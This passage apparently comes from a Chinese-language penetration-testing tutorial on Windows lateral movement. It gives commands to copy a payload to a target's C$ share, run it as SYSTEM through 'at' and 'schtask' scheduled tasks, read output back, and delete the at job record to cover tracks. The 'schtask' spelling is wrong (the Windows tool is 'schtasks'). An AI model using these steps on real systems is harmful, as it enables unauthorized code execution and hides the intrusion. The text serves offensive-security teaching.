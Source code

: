 ##### [](#%E5%B0%86-payload-%E5%A4%8D%E5%88%B6%E5%88%B0%E7%9B%AE%E6%A0%87%E7%B3%BB%E7%BB%9F%E4%B8%AD)将 payload 复制到目标系统中

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>copy payload.bat \\IP\C$<br>``` |

##### [](#%E4%BD%BF%E7%94%A8-at-%E5%91%BD%E4%BB%A4%E5%88%9B%E5%BB%BA%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)使用 at 命令创建计划任务

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>at \\IP 8:00AM C:\payload.bat<br>``` |

返回一个计划任务 ID

##### [](#%E6%B8%85%E9%99%A4-at-%E8%AE%B0%E5%BD%95)清除 at 记录

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>at \\IP taskID /delete<br>``` |

使用 at 将执行结果保存到远程，再读取结果：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>at \\IP 8:00AM cmd.exe /c "ipconfig > C:/1.txt"<br>``` |

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>type \\IP\C$\1.txt<br>``` |

#### [](#schtask-%E5%91%BD%E4%BB%A4)schtask 命令

##### [](#%E5%BB%BA%E7%AB%8B-ipc-%E8%BF%9E%E6%8E%A5)建立 IPC 连接

##### [](#%E5%88%9B%E5%BB%BA%E5%90%8D%E4%B8%BA-task-%E7%9A%84%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)创建名为 task 的计划任务

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>schtask /create /s IP /tn test /sc onstart /tr c:\payload.bat /ru system /f<br>``` |

##### [](#%E6%89%A7%E8%A1%8C%E8%AF%A5%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)执行该计划任务

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>schtask /run /s IP /i /tn "test"<br>``` |

##### [](#%E5%88%A0%E9%99%A4%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)删除计划任务
